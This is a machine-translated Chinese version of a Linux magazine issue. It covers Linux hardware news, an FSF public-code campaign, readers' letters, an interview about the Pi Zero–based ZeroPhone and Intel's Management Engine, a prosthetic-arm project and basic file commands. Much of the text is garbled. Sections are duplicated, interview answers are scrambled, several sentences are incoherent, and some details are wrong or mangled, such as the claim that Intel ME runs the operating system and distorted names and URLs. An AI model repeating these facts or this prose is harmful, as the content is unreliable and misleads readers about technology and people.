# Linux 用户与开发者 184 - 掌握终端的 100 种方法 184

> 在 24 小时内成为命令行大师


### 专访
使用 `Pi Zero` 构建 50 美元手机的英雄

### 热点项目


### 专家指南
学习如何像专业人士一样寻找弱点

## 49 份专家指南

- `Ed Snowden` 最喜爱的发行版获得重大更新
- 为你的下一个 `Python` 项目获取完美环境

### 内页精彩内容


### 编辑部
- 编辑 `Chris Barnett` (`Chris.barnett@linuxuser.com`)
- 设计师 `Rose Webber`
- 制作人 `Scott Paul King`
- 编辑 `David Newmann`
- 高级艺术总监 `Miles Kelly`

### 贡献者
- `Ben Miles`, `Michael Bedford`, `Joay Beard`, `Brendan`, `Coleman`
- `John Governors`, `Tim Garcia`, `Paul O'Neil`, `Nate Smith`
- `Jan Mason`, `Gary Williams`, `Mayhem Shakespeare`

### 广告
- 媒体包可按需索取

### 商业部门
- 广告总监 `Richard Richards` (`richard.richmonds@linuxuser.com`, +44 (0)1215 666117)
- 广告助理 `Tony Turner` (`tony.turner@linuxuser.com`, +44 (0)1215 666144)
- 国际销售 `Miles Kelly` (`miles.kelly@linuxuser.com`)

### 发行量
- 发行总监 `Darren Pearce` (01215 566202, +44 (0) 344 8832)

### 制作
- 英国及市场中心负责人
- 制作经理 `Clive Scott`
- 数字编辑 `Colistar Hudson`
- 制作经理 `Harry Noble`

### 管理
- 执行董事 `Anya Lynne-Roman`
- 创意总监 `Aaron Salt`
- 艺术与制作总监 `Ross Wood`

### 营销
- 营销部，`Thornbury Road`, `Bath`, `Somerset`, `BA1 6SY`

### 在社交媒体上关注我们吧！
- `Facebook`, `Twitter`, `Instagram`, `YouTube`

### 伦敦 `E14 9HU`

- 掌握终端的 100 种方法，p20
- 为 `Lorelei` 构建机械臂，p18
- 接受渗透测试挑战，p52

### 欢迎阅读
欢迎阅读英国和北美最爱的 `Linux` 和开源软件（`FOSS`）杂志。曾想过你的税款去向哪里了吗？嗯，其中很大一部分仅仅流向帮助行政和政府的闭源软件硬件（这是一场吉人的噩梦还是梦想？）。`Free Software Foundation` 正在开展一项活动，提高人们对这些纳税人资金的关注（详见第 9 页）。如果你在美国，请查看如何通过要求开源需要更改的 20% 新代码来代表我们的意见。

在杂志的其他部分，我们专注于 `Linux` 运行的特色介绍（p20），以及 `John` 关于 `Linux` 的专题（p34）。在你的到来之际，我们准备了大量的教程，以及其他（p27）。

## 页码
- `Ed Snowden` 最喜爱的发行版获得重大更新
- `Python` IDEs
- 为你的下一个 `Python` 项目获取完美环境

## 未来


`Two Sides` 是一项促进负责任使用印刷和纸张的全球倡议。如果纸张源自认证或可持续管理的森林，它是一种独特强大且自然的传播媒介。

有很多极好的理由 `#热爱纸`。现在就发现：`twosides.info`

### 伦敦 `E14 9HU`


我们很高兴地通知您，本期杂志仅用于非商业目的。本杂志是根据最高环境和社会标准，使用 100% 回收纸张和植物性油墨印刷的。

## 免责声明

LinuxUser 杂志由 Future Publishing Limited 出版，版权所有。未经出版者书面许可，不得使用、复制或存储本杂志的任何部分。Future Publishing Limited 是英格兰和威尔士注册公司（编号 01234567）。

本杂志包含的信息仅供参考，因此我们对其中包含的任何信息的准确性或完整性不承担任何责任。指向外部网站的任何链接均由读者自行承担风险。我们不控制也不认可杂志中链接的网站内容，对本文提到的内容不承担任何责任。

# 本期

* 掌握终端的 100 种方法，p20
* 为 Lorelei 构建机械臂，p18
* 接受渗透测试挑战，p52

欢迎阅读英国和北美最爱的 Linux 和开源软件（FOSS）杂志。曾想过你的税款去向哪里了吗？嗯，其中很大一部分仅仅流向帮助行政和政府的闭源软件硬件（这是一场吉人的噩梦还是梦想？）。自由软件基金会正在开展一项活动，提高人们对这些纳税人资金的关注（详见第 9 页）。如果你在美国，请查看如何通过要求开源需要更改的 20% 新代码来代表我们的意见。

* Ed Snowden 最喜爱的发行版获得重大更新
* 为你的下一个 Python 项目获取完美环境

# 内页精彩内容


### 编辑团队

* 编辑：Chris Barnett (`Chris.barnett@linuxuser.com`)
* 设计师：Rose Webber
* 制作人：Scott Paul King
* 编辑：David Newmann
* 高级艺术总监：Miles Kelly

### 贡献者

Ben Miles, Michael Bedford, Joay Beard, Brendan Coleman, John Governors, Tim Garcia, Paul O'Neil, Nate Smith, Jan Mason, Gary Williams, Mayhem Shakespeare

保留并尊重所有版权

### 广告

媒体包可按需索取

**商业部门**

* 广告总监：Richard Richards (`richard.richmonds@linuxuser.com`, +44 (0)1215 666117)
* 广告助理：Tony Turner (`tony.turner@linuxuser.com`, +44 (0)1215 666144)
* 国际销售：Miles Kelly (`miles.kelly@linuxuser.com`)

**发行量**

* 发行总监：Darren Pearce (01215 566202, +44 (0) 344 8832)

**制作**

* 英国及市场中心负责人
* 制作经理：Clive Scott
* 数字编辑：Colistar Hudson
* 制作经理：Harry Noble

**管理**

* 执行董事：Anya Lynne-Roman
* 创意总监：Aaron Salt
* 艺术与制作总监：Ross Wood

**营销**

营销部，Thornbury Road, Bath, Somerset, BA1 6SY
伦敦 E14 9HU

在社交媒体上关注我们吧！

* Facebook
* Twitter
* Instagram
* YouTube

06 新闻与观点 | 10 字母 | 12 采访 | 16 内核更新


## Station X 发布 Lifeline 笔记本电脑

新款 Linux 笔记本是经过精调的 Manjaro 驱动设备

位于 Bletchley 的 Station X 正在推出其 `Lifeline` 笔记本电脑的 `Manjaro` 特别版。该产品将于10月发售，配备第七代 `i7` 处理器、8GB至32GB `DDR4` `RAM`、带有第二个硬盘位的`500GB` `SSD`以及 `Intel 610/620` 显卡，售价1250镑。

Station X 并非推出自己的系统，而是与 Linux 世界现有的原生开发团队合作，为目标设备提供高度定制的发行版。它还支持超过26种其他设备。

`Simon Vassallo` 告诉我们，“`Manjaro` 特别版是由 `Manjaro` 团队从零开始设计的——这意味着它不仅仅是一个版本，而是从底层开始完全完善的体验。我们从6月起一直与 `Manjaro` 团队合作，为 `Manjaro` 社区以及整个 `Arch` 社区创造一些特别的东西。”

`Vassallo` 表示，这个定制版本涵盖了“调整过的内核设置、电源和性能设置，甚至是音频设置，以确保机器获得最佳电池续航、动力和体验。`Manjaro` 软件特别版将通过 `Manjaro` 仓库维护和更新——因此机器也将获得更新。此外还将提供软件支持和自定义资产，如‘独家主题、壁纸’。”

其他团队（如 `Debian` 和 `Solus`）正与 Station X 合作开发定制发行版，这些版本将出现在 Station X 的“世界 Linux”`ARM` 架构计算机集群的其他设备上。除了轻量级的 `Lifeline`，网站还推出了 `Harrier` 和 `Hardware Blender`（硬件搅拌机）。

“我们对命名非常谨慎，”`Vassallo` 说，“因为我们使用特定时期的特征来反映每台机器的品质和属性。”作为一个例子，他提到了 `Lancaster`（兰开斯特战斗机）。


*上方 轻量级的 `Lifeline` 能否与专有笔记本电脑竞争？*

Station X 配备了高达 `GT 1050` 的专用 `Nvidia` 显卡的“重型轰炸机”。当然，如果没有市场，这一切将无法实现，`Vassallo` 对未来充满乐观：“我认为我们正处于 Linux 软件和硬件的复兴时期。Linux 应用和桌面环境从未像现在这样令人兴奋；我非常期待 Station X 加入像 `System76` 和 `Purism` 这样更成熟的供应商行列！”

欲访问 `stations.rocks` 了解更多信息。

## 纤薄型 Noodle Pi 手持电脑发布

### 基于 Pi 的 Kickstarter 游戏改变者

`Noodle Pi` 是一款基于 `Raspberry Pi Zero` 的便携式电脑，它解决了英国制造的微电脑的关键问题之一：一旦组件连接，内部可能会变得有些混乱。

使用 `Raspberry Pi Zero`，`Touchbillion` 的拆解过程令人兴奋；配合摄像头模块和一体化机身，`Noodle Pi`——最薄处仅 10mm 厚——将成为第一台手持电脑。

目前提供两个版本：49 美元的 DIY 套件包（包含 3D 打印外壳和其他零件，需要你自己组装），以及 149 美元的预装测试测试版 `Noodle Pi`（提供标准 `Pi Zero` 和 `Pi Zero W` 版本）。

可能性是无限的！

`Noodle Pi` 是一款基于 `Raspberry Pi Zero` 的便携式电脑，它解决了英国制造的微电脑的关键问题之一：一旦组件连接，内部可能会变得有些混乱。

对于任何电脑级 `Pi`，真正的魔法存在于设备内部。`Noodle Pi` 的便携性激发了一系列新用途，这是 `Gullah` 表示他希望实现的。

其中一种用途是 `Noodle Unstopable`，它利用 `Pi Zero` 创建了一个物理隔离的便携电脑，但 `Gullah` 表示这是帮助发展中国家的方法，用途从移动软件开发到可穿戴设备不等。

`Noodle Pi` 目前可通过 `www.noodlespi.com` 订购。


### 前10名

（每日平均访问量，截至9月25日前30天）

1. `Mint` 2605
2. `Manjaro` 1712
3. `Debian` 1572
4. `Antlers` 1387
5. `Ubuntu` 1372
6. `Solus` 1044
7. `Zorin` 927
8. `openSE` 867
9. `Fedora` 835
10. `elementary` 773

### 本月

* 稳定版（21个）
* 开发中（8个）

发布了针对三个专注于安全性的更新，包括渗透测试工具、匿名浏览和法证取软件。

### Subgraph OS

基于 `Debian` 的 `Subgraph OS` 为匿名性提供了多次每周更新，包括加固内核和防火墙，同时网络流量会被路由到 `Tor`。支持所有内容加密，文件系统也经过了加密。

### Parrot Security OS

基于 `Debian` 开发，`Parrot Security OS` 包含了渗透测试、密码学、伦理和其他工具的标准功能。它与 `Kali` 共享许多工具。

### Kali Linux

`Kali Linux` 是另一个基于 `Debian` 的专注于安全的 Linux 渗透测试平台，包含许多工具，`Kali Linux` 还支持 `ARM` 设备并包含四个桌面环境。

### 最新可用的发行版：

`filesilo.co.uk`

## Atari 能让 Linux 游戏兴起吗？

## 传奇游戏大师发现了 Steam 级别的空白


一如既往，我们知道`Atari`正在为一款基于`Linux`的主机进行众筹。自2008年与`Infographics`合并以来，`Atari`发布了许多硬件。现在已接近预期，但`Atibox`可能会改变这一点。

运行`Linux`，并配备`Radeon`图形处理器和各种内存配置，这款主机可能唤起了对经典`2600`的回忆。

但为什么是`Linux`？这里有一个令人鼓励的部分：“大多数设备都是封闭系统并限制内容。`Linux`让我们开放；你可以访问并运行从平台购买的游戏。”这意味着我们


上方`Atibox`提供木纹选项

作为一款出色的游戏设备，`Atibox`还为电视提供了完整的体验，带来了流媒体、应用程序和更多功能。

预计价格为249-299美元，`Atibox`将在`Indiegogo`上发布，并为支持者提供特别版本和早期访问奖励。

在一个`Steam`在很大程度上不为人知的世界里，`Android`游戏机又莫名地未能取得足迹，历史一直对`Atari`不利，但我们必须拭目以待。

## `GNOME`和`Plasma`支持`Purism`手机支持

在`Purism` `Librem` `5`的消息传出后，开源世界的两个大巨头已宣布他们的参与意向。

凭借`Purism`与`KDE`的首次合作，这项合作将确保有大量资源支持`Plasma` `Mobile`移植到`Librem` `5`。这是一个理想的组合：`KDE` `Plasma`将在其操作系统基础上保持最新状态，而`Purism`则致力于实现开发全加密移动操作系统的目标。但这意味着`Plasma` `Mobile`将成为`Librem` `5`的默认操作系统吗？根据最初公告，`GNOME` `UI`将在10月前采用。

出乎意料的是，目前的需求是`GNOME`基金，它已表示支持将`Librem` `5`打造为`GNOME`/`GTK`手机设备。`GNOME`基金致力于与`Purism`合作创建硬件set……然而，基金的投资是有代价的：`Purism`的众筹必须达到其目标。如果成功，`GNOME`将能够帮助`Purism`“增强`GNOME` `Shell`和系统整体性能，以便在5上运行得更好。”

## 公共资金？公共代码！

大多数公共应用都在花费我们的税金来开发专有软件。保罗·布朗（`Paul` `Brown`）希望你也同意这是一个糟糕的主意。

自由软件基金会（`Free` `Software` `Foundation`）的“公共资金？公共代码！”运动正在筹集资金，以确保所有使用公共资金开发的软件都能作为免费软件可用。

作为一个政府，我们必须向公众说明我们有充分的理由这样做，尽管事实是我们再次在为闭源软件买单，而且没有从中受益。这句话引用得非常贴切：我们经常因此遭受痛苦，因为我们付出的钱更多，得到的却更少，特别是当公共部门需要某个已经决定采用但不共享的软件时。

由于英国国家医疗服务体系（`NHS`）依赖于在负担不起升级的过时平台上运行的专有软件。它是公共软件项目应该有的样子的典型范例，然而在制作时却再次允许西班牙举行的每一场法庭访问私人和机密信息。对于那些将信息同步到其公共朋友、公司和外国民众机构的专有软件来说……呃，这已经变得令人不安了。

尽管有所有证据，尽管仍有争论，专有软件的发展依然如此，作为公共部门的我们依然如此，公众像既往一样不知道他们是否处于集群状态，政治家们也不知道为什么这项名为`MPPCI`的运动是必要的。


保罗·布朗是`KSI`和自由软件基金会的通讯官。多年来，他一直致力于编写捍卫公共代码。

在我们写此文时，德国针对联邦选举委员会（`TSE`）的选举确保了每位联邦议院候选人都收到了一份

## 公众对他们的资金如何被使用一无所知

`MPPCI`公开信。这封信有超过11,000人的签名，并得到了70多个组织的支持。它用不明确的术语指出，公共软件应该投入到开源和免费的代码上。

在2019年欧洲议会选举之前，所有潜在的议员也将收到这封信。这同时也鼓励了全欧洲的活动人士去尝试说服他们国家的律师通过立法，优先将资金用于开发开源软件。支持这一事业的人越多，我们能施加的压力就越大。使用此处的链接（`https://publiccode.eu/openletter/`）非常重要，这只需要几分钟，你就能说服这些机构公共资金应该花在公共代码上。

## 让你的`Linux`新闻与观点开源

## 你们的来信

关于本杂志、`Linux`和开源的问题与意见

+ 与我们联系！

有什么想告诉我们的，或者有需要解答的迫切问题吗？

请发送邮件至：`linuxuser@futurenet.com`



上面的`Bob-den`不像美式英语，但他认为自己不应该像现代`Linux`发行版（如`manj` `Linux`）那样因为英国英语——或者说美式英语和加拿大英语——而受苦，这本应是一个安装选项。

## 我是英国人！天哪，懂了

`Linux`普及度的提高——消除了各处的`Windows` `XP`；他们已经玩了`Linux`至少多年，[但是]每次尝试`Windows`和`Linux`双系统启动都以灾难告终。可能是内存故障，但谁知道呢？我参与过灾难——那种傲慢的固执，认为在你在使用命令行之前你并不知道自己在做什么。我用过一个`C-PM`里的程序，大约十个月前我得到了它。

现在，我是英国人，我的母语是英式英语。最近有一个来自`live` `OS`的发行版瞬间就处于90%的不稳定状态——`Magea`。其他所有发行版都假设我是美国人，并使用了那些有错误的英语版本。一个准备好尝试`Linux`的`XP`用户无法走更远。毕竟，`Windows`会识别你是谁，并为你提供一个一键设置。现在我知道，有一个专门为使用英式英语的`Linux`版本并不重要。

我的邻居之一发现她的作业被纠正了，因为她的单词拼写错误，被替换成了美式拼写。我找了学校的`IT`经理，检查了所有的学校系统。

那些生活并呼吸`Linux`的聪明人可能很快解决这个问题，但新手不会。请问，我们能拥有默认英式英语的发行版而不需要`Facebook`: `facebook.com/LinuxUser`

`Twitter`: `@linuxusermag`

命令行？是的，`Windows`还有一个`MS-DOS`的幽灵，但更新到最新版本并不要求新用户了解它的任何事情！通过这种，我目前（仍然）安装的`Linux`是很棒！来自外部硬盘的。


`Chris`: 感谢你的邮件。我同意尽可能为新用户消除障碍，但美式英语很难吗？对于美国朋友来说似乎很容易，但我感到你的痛苦。然而，你不希望美式英语在每个界面上挑衅你。在任何现代发行版中选择语言。在`Ubuntu`中，可以在安装过程中选择英式英语。`Ubuntu`中也显示只有美式英语。我目前的宠物是美式英语，我无法安装。使用“color”而不是“colour”的想法令人沮丧，但我必须提醒自己语言是一个令人沮丧的生物，源自法语。


一满子的`@Raspberry_pi`电脑和一些`@LinuxUser`教程让计算变得更有趣！

上面：`Ubuntu` `17.04`中的`Wi-Fi`问题是由`NetworkManager`的一个“功能”引起的，但现在应该修复了，在`17.10`中不是问题。需要重启网络服务来更改配置文件。祝运！


`Yoshi`通过`Twitter` `@LinuxUserMag`

`Chris`: 可能有很多答案可以回答这个问题，我们不了解`Linux`系统，但考虑到这是一个全新的安装，问题可能在`17.10`中仍然存在。我个人发现`Wi-Fi`在`17.04`中最初是可以工作的，但更新后就消失了。然而，原始问题是新版本的`NetworkManager` `(1.4)`引入了一个更改你的以太网或`Wi-Fi`卡`MAC`地址的安全功能，导致了连接问题。`OMG`！用户发现的方法是编辑`/etc/NetworkManager/NetworkManager.conf`文件并添加以下内容：

```
[device]
wifi.scan-mac-address=
```

今天开始从你的拳开始


`www.netcetera.co.uk/lud03330` `49378`

`Arsenij` `Picugins`未被这项事业的规模所震倒，他正接近创建一个套件，让其他爱好者能够使用`Pi` `Zero`、自定义`PCB`设计和花费50美元的组件构建他们自己的手机。


`Arsenij Picugins`


他今年 22 岁，是`ZeroPhone`的创始人。他暂停了大学业，专注于手机等项目，并帮助里加黑客空间（Riga Hackerspace）。

开源硬件的增长不可否认，我们已经有了高关注度的智能手机项目，例如`Purism`专注于安全和隐私的`Librem 5`智能手机（[https://purism.com/shop/librem-5](https://purism.com/shop/librem-5)）。

`Arsenij Picugins`的`ZeroPhone`项目同样野心勃勃，但价格便宜得多。在我们开始采访时，带有些讽刺的是，他对手机连接的断续表示歉意，因为他在从家里家前往立陶宛乡村的途中正在用`ZeroPhone`接电话。

`ES8626`）、HDMI 和音频输出、一个全尺寸 USB 主机端口和一个用于充电的微 USB 端口。一个让硬件黑客注意的特性是使用 GPIO 扩展头进行硬件添加和定制。`Picugins`正在使用`Raspberry Pi 3 Model B+`。在代码方面，他使用`Python`，并有一套旨在让开发快速快捷的 UI 工具包。

大问题是，你可以用容易获得的零件和廉价的板子组装手机吗？

嗯，我正在确保事实如此。现在有两个人正在尝试独立组装手机。这是一个缓慢的过程，看起来并不像组装好润后那么简单，而这也是我正尝试在`Hackaday`奖截止日期前完成的任务，日期还有 20 天。但这是从一开始的卖点之一，因为它允许你选择组合手机的组件，将这些组件组合在一起并组装整体，以及其他顺序。

在目前的形式下，`ZeroPhone`是一个在 PCB 夹明治中的`Raspberry Pi Zero`，带有 Wi-Fi (

那么，什么是管理引擎（Management Engine）？为什么用户可能想要禁用它？想象一下有一个“黑盒”运行在你`Linux`机器的最低层，它控制着系统的每一个部分，而你无法访问或控制它。这是你拥有的一个英特尔组件，它被称为管理引擎（ME）。ME 是英特尔 CPU 上的独立处理器核心（MCP），它运行你的操作系统，但它与操作系统的交互中存在漏洞。

`AMT`（活动管理技术）模块存在于英特尔管理引擎内部。这些`AMT`模块（或英特尔`vPro`开启的功能）用于带外修复工作，并对你的机器进行监控、维护、更新和升级。这意味着，在企业环境中充分使用的带有英特尔 ME 的机器，是可以被远程访问以进行移除和定位的。然而，禁用或限制 ME 通常非常复杂，这就是为什么`Purism`这样一家制造商会有如此多的硬件配置、硬件熔丝和固件选择。

最近，在某些活动管理技术（Active Management Technology）中发现了漏洞


上方：带有板载编程的 SPI 闪存芯片和 IC EEPROM，`ZeroPhone`可以作为`x86`设备或自由路由器固件运行

### 你有足够胜任的焊接技能来完成这个吗？

我不认为作为第一个项目是可能的。我认为这是第二次或第三次项目。此外，它的很大一部分是硬焊在树莓派外壳的`Pick & Play Module`（即插即用模块）上的。因此我可以提供已经组装好硬焊零件的套件。即便如此，如果没有硬焊技巧，我不认为人们可以自己完成——我可以帮助简化过程。例如，有一个`GitHub`（[https://github.com/purism/zerophone](https://github.com/purism/zerophone)）列出了所有需要的零件列表。所有易于与按钮组装的硬焊零件示例——你只需要帮助并固定按钮即可。如果你能焊接一个组件，你就能以这种形式焊接所有组件。那些购买困难或昂贵的零件，对我来说太贵了，我也不愿意接受过高的价格。

### 所以你热衷于将所有组件的价格控制在 50 美元以下吗？

对我来说，是的，但这是材料成本的大致情况。树莓派现在大约 40 美元，我可能会增加 5 美元的组件，但如果是我的套件并且需要进行包装，那么成本就不会是 50 美元了。但我希望至少在 50 美元以下，因为这是一个实际的限制，超过这个界限，花钱就很难证明合理。

有比`Linux`更好的操作系统吗？`Linux`非常棒，就因为有了树莓派。但树莓派的价值在于软件。它很棒。尽管有一些闭源部分（这是问题），但我认为在谈论单板计算机时，它是目前支持最好的系统之一。他们拥有资源并考虑了用户反馈。

所以你正在寻找树莓派发行版的精简版本？这意味着桌面环境。这正是我想要的，并且确保在不使用桌面的情况下使用它（默认最小化安装或你直接从 USB 驱动器启动）。现在提到它，就是`Python`。我们没有`X Server`，或者供我们使用的`GNOME Linux`库。我认为使用一些小型框架是一个很好的开始。它们都是各种类型的`Android`框架，但我不知道任何可以使用的 UI 框架。屏幕有一个帧缓冲区，但我开发的内容还没有这种东西。所以我我有选择使用我自己的一些，或者使用所有应用程序并编写以使用所有可用终端库，或者花时间制作某种帧缓冲区。

在制造过程中，我的预算不太可能耗尽。是的，这更多是关于现实性。

我认识的两个人已经在尝试组装当前版本了，还有六个人将组装下一个版本。我已经为他们购买了零件，现在我正在进行 PCB 设计。因此，当组装成为真正的首要任务时。归根结底，这是一项无人提供的服务，但它是完全可以实现的。

它基本上只需要将 2G 替换为 3G 即可，这是可行的，但我受限于正在使用的 2G 芯片的尺寸，我正在尝试设计这些尺寸。两周前，当我完成 3G 升级板时，我遇到了一些局限性，我正在考虑如何绕过它们，要么增加手机的尺寸，要么基本上让某个部分稍微凸出来。我明智地找到了解决方案，以便在下一个版本中制作 PCB。但它是众筹的优先考虑事项之一。

对于想要获取`ZeroPhone`或对该项目感兴趣的人，有一份调查卷。我收集了一些回复，我认为，由于 3G 是最受需求的功能，我必须在众筹中提供 3G，否则将是一个非常严重的劣势。

### 你还为 ZeroPhone 添加了插件。能告诉我们关于它们吗？

我不确定树莓派提供的接口是否可行，但有很多免费的接口。我甚至将这些接口连接到`ZeroPhone`的侧面，我在想，为什么不做一些对编程和闪存（flashing）用的用的子呢？然后我明白了，例如，我可以设计一个带有`Bios`芯片电路甚至`Intel`内部盒（或类似东西）的板。

我可以将其插入`ZeroPhone`扩展板中，并使用可用的`BIOS`编程工具来读写内存内容，在我在使用它们时，可以将其用于`ME Cleaner`（一个帮助`Purism`的实用工具）。我还可以修改`BIOS`镜像并刷回手机，我为此需要一台笔记本电脑。这是我的侧边项目之一，我意识到`ZeroPhone`也是一个非常强大的硬件黑客平台，那些额外的端口会让它比现在更好，这是我可以做的，让硬件黑客变得更加用户友好。


它是极其重要的，我相信这个项目如果成功，将成为开源手机历史上的一个转折点。在我看来，这是用我们的钱投票，如果我们成功了，它将让其他公司听取并关注我们——哪怕只有一点点。对于他们来说，`ZeroPhone`、`marketOS`（[https://marketos.com](https://marketos.com)）和`Purism Lib`

我相信我们在这个领域引起改变。`Purism`目前正在制造非常现代的硬件，他们有大量的资金来实现这一点。`MarketOS`正在让旧手机通过`Linux`焕发新生命，而我正在将这些易于获取的单板计算机制成黑客工具包。

要了解更多关于`ZeroPhone`项目并可能参与，请访问项目主页

```
http://bit.ly/ZeroPhone
https://github.com/ZeroPhone.
```

`Jon Masters`总结了内核社区的最新动态，随着`4.14-rc3`的发布，开发仍在持续。


### Jon Masters

是一位内核黑客，在`Linux`领域工作了二十多年，并在 13 岁时的`Linux Day`假期开始编写代码。对于一家大型企业供应商，他维护并为企业级`ARM`驱动服务器提供一套标准。

> `Linus Torvalds`宣布了`4.14-rc3`（发布候选版本 3），并指出`4.14`到目前为止是一个“有些痛苦的发布”。他将此归因于它并不打算成为一个长期支持（LTS）版本。在`Greg Kroah-Hartman`的努力下，`4.14`将收到“稳定”的回传更新（如`4.14.z`）。

一个五岁女孩如何通过众筹获得了一个机器人假肢（在她的家人和许多友好陌生人的帮助下）

- `Bodo Hoenen`

是一位社会企业家，开源创新组织`Devix`的创始人。

一对父女团队为一条机器人假肢的设计众筹了资金，并为女儿制作了一个假肢，她的女儿因为一种罕见疾病导致肩部和左臂瘫痪。

谁在激励`Bodo`？

`Bodo`说，在`Devix`，他受到了两个人的影响：一位是获奖的漫画家，另一位是政府作家、倡导创业精神的`Leadleader`。

除了`TED-Leadleader`外，另一位是`Clay Shirley`。`Clay Shirley`被`TED`创始人`Anderson`描述为对互联网“技术”产生社会经济影响的“思考者”。


急性脊节性髓炎 (`AFM`) 是一种影响神经系统的疾病，康复率仅为 2%。

这样的诊断是残酷的，即使当他们涉及到自己的孩子的帮助时，这也是 `Bodo Hoenen` 和他的家人在 2016 年夏天面临的局面，当时他们发现她患有 `AFM`。这种疾病影响脊髓，在 `Lorelei` 的案例中导致了她的肩部和左臂瘫痪。“假肢是唯一有帮助的东西，”`Hoenen` 说，“但从结果来看，只有两个孩子有了显著的康复……”

捕捉大脑发出的信号并将其转换为控制执行器和 `VR` 的信息。

在听取了专家意见后，`Hoenen` 希望他们能连接到 `Lorelei` 手臂的二头肌上。“我们知道她至少会向我们发出非常弱的信号，我们希望捕捉到这些信号并将其转化为她的肌肉运动，有助于她的康复过程。”

`Hoenen` 知道实现此点的最好方法是某种机器人假肢，但他必须弄清楚如何做。他和 `Lorelei` 决定寻求帮助。“我们决定利用周围所有人的集体智慧，”`Hoenen` 说。所以，在筛选了所有信息后，他们找到了并与其他患有 `AFM` 孩子的父母交流，`Bodo` 和 `Lorelei` 开始着一个简单的设计；他们想 3D 打印支具并安装一个电机来拉起手臂。当他们深入进行该项目时，他们决定录制一些视频寻求专家帮助。

回应是“令人惊喜的，”`Hoenen` 说。几周后，他们收到了一本漫画（`www.actonium.com`）的捐赠，尽管有很多人，他们收到了来自南非和德国人体技术专家的帮助，并完成了 `Lorelei` 手臂的设计。没多久，他们用 `PLA` 材料通过 3D 打印套子制造了一个原型。


戴上 `VR` 头显设备，你会看到自己在移动手臂。随后，你的身体在行走，仿佛外骨骼在移动你的身体，这会迫使大脑思考：“好的，我要走路了。”

> 未能掌握到

# 下一个我们应该介绍什么启发性项目？

通过邮件向我们反馈你感兴趣的项目 `linuxuser@futurenet.com`


**上方** 的前提很简单：通过传感器捕捉肌肉信号来帮助 `Lorelei` 的手臂，并协助手臂在没有执行器驱动驱动的情况下向上移动。

在找到并与其他患有 `AFM` 孩子的父母交流后，`Bodo` 和 `Lorelei` 开始着一个简单的设计；他们想 3D 打印支具并安装一个电机来拉起手臂。当他们深入进行该项目时，他们决定录制一些视频寻求专家帮助。

回应是“令人惊喜的，”`Hoenen` 说。几周后，他们收到了一本漫画（`www.actonium.com`）的捐赠，尽管有很多人，他们收到了来自南非和德国人体技术专家的帮助，并完成了 `Lorelei` 手臂的设计。没多久，他们用 `PLA` 材料通过 3D 打印套子制造了一个原型。


然而，他们面临的最大问题是从 `Lorelei` 手臂捕捉肌肉信号。他们发现过滤和归一化信号以及设置执行器阈值非常困难。`Hoenen` 在信号中发现了非常微小的差异，他们注意到执行器可以由抽动甚至 `Lorelei` 的运动触发，所以他们寻求了帮助。

`Hoenen` 认为实现此点的最好方法是通过机器学习或模式识别来解码信号。一个主意来自西海岸学院的一名学生，利用模式识别帮助残肢人士使用假肢。该公司有一套使用 17 个传感器将肌肉信号转换为运动的系统。

然而，将信号转化为足够的运动（如图）为他们提供了一个使 `Lorelei` 运动的可行单元，这意味着 `Hoenen` 最终创建了一个工作模型。

虽然起初很多人感兴趣，但 `Hoenen` 遭到了许多人的负面意见。“这像是个笑话，这通过 `FDA` 认证了吗？”“从我的角度来看，这是我的身体。我希望它能起作用。你有 50000 元，我负担不起。技术没有那么聪明，所以我们为什么不把它开源并加速……”

顶层项目是为上面的 `Coast` 系统创建一个开源方案。`Bodo` 和他的女儿记录了所有文档，以帮助面临相同问题的父母。创新发生在我们所拥有的一切之上，这对我们所有人构建定制模型都是有效的？遗憾的是，许多制造商并不是。

## 学习文件操作的基础知识

```
-rw-r--r-- 1 nels 5841928 Jul 11 2012 P000130.JPG
-rw-r--r-- 1 nels 583728 Jul 11 2012 P000131.JPG
-rw-r--r-- 1 nels 581712 Jul 11 2012 P000147.JPG
-rw-r--r-- 1 nels 5506029 Jul 12 2012 P000152.JPG
-rw-r--r-- 1 nels 6146996 Jul 12 2012 P000155.JPG
-rw-r--r-- 1 nels 5935538 Jul 12 2012 P000159.JPG
-rw-r--r-- 1 nels 5950908 Jul 12 2012 P000163.JPG
-rw-r--r-- 1 nels 6245021 Jul 12 2012 P000168.JPG
-rw-r--r-- 1 nels 5894656 Jul 12 2012 P000172.JPG
-rw-r--r-- 1 nels 5933333 Jul 12 2012 P000176.JPG
-rw-r--r-- 1 nels 5965576 Jul 12 2012 P000182.JPG
-rw-r--r-- 1 nels 5973333 Jul 12 2012 P000184.JPG
-rw-r--r-- 1 nels 6148906 Jul 12 2012 P000190.JPG
-rw-r--r-- 1 nels 6103528 Jul 12 2012 P000198.JPG
-rw-r--r-- 1 nels 5553333 Jul 12 2012 P000205.JPG
-rw-r--r-- 1 nels 5025329 Jul 12 2012 P000231.JPG
-rw-r--r-- 1 nels 5478888 Jul 12 2012 P000234.JPG
```

列出指定目录的内容，如果没有参数，则列出当前目录。`-l` 选项启用带信息的详细格式。文件按字母顺序排序；使用 `-t` 按日期排序，使用 `-S` 按大小排序。使用 `-r` 反转排序顺序。

```
mv file1 file2
```

将 `file` 移动或重命名为 `file2`。同样，如果 `file2` 是一个目录，它会将 `file1` 移动到内部。注意 `file2` 可以是一个目录。添加 `-i` 或 `-n` 以防止覆盖现有名称。

```
rm file1 file2...
```

